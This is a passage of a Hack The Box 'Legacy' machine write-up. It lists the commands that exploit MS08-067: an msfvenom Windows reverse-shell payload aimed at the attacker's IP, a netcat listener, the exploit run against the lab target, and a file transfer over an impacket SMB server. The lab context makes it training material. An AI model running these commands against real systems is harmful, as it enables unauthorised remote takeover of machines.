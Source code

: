 ```bash
git clone https://github.com/andyacer/ms08_067
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.62 LPORT=443 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f c -a x86 --platform windows
nvim ms08_067_2018.py
sudo rlwrap -cAr nc -nlvp 443
python2 ms08_067_2018.py 10.129.131.158 6 445

whoami                                        # :(
hostname
```

<br />
<img src="{{ site.img_path }}/legacy_writeup/Legacy_16.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/legacy_writeup/Legacy_17.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/legacy_writeup/Legacy_18.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

I have the `whoami.exe` binary on my attacking machine, so I'm going to transfer it to the compromised machine, this way I can get the name of the user I was able to log in with.

> **Attacker Machine**:

```bash
locate whoami.exe
cp /usr/share/windows-resources/binaries/whoami.exe .
sudo impacket-smbserver smbFolder $(pwd) -smb2support
```

> **Victime Machine**:

```cmd
copy \\10.10.14.62\smbFolder\whoami.exe .\whoami.exe

.\whoami.exe                                            # :)
```

<br />
<img src="{{ site.img_path }}/legacy_writeup/Legacy_19.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/legacy_writeup/Legacy_20.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

> As I always say about the **[Hack The Box](https://www.hackthebox.com){:target="_blank"}** platform, even with **Easy** machines for beginners, you can take advantage of them to assert your knowledge or even to face inconveniences in the **Exploitation** phase. In the field of **Information Security**, setbacks, challenges and uncertainty are a daily occurrence, so one must be prepared to face them, it is time to train the next box. I just have to kill the one I have started.

<br /><br />
<img src="{{ site.img_path }}/legacy_writeup/Legacy_21.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
